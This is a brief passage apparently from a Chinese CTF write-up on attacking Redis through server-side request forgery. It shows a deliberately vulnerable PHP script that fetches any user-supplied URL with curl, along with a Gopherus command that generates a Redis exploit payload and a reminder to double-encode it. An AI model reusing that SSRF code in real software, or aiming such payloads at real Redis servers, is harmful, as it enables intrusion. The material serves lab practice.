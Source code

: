> 打redis
>
> ```php
> <?php
> error_reporting(0);
> highlight_file(__FILE__);
> $url=$_POST['url'];
> $ch=curl_init($url);
> curl_setopt($ch, CURLOPT_HEADER, 0);
> curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
> $result=curl_exec($ch);
> curl_close($ch);
> echo ($result);
> ?>
> ```
>
> 

```
python gopherus.py --exploit redis
```

![](https://i.loli.net/2021/09/03/fcEwUpJuiO24IoT.png)

操作同上，同样要记得二次编码

![](https://i.loli.net/2021/09/03/E4aHYCi9Oymh3wV.png)
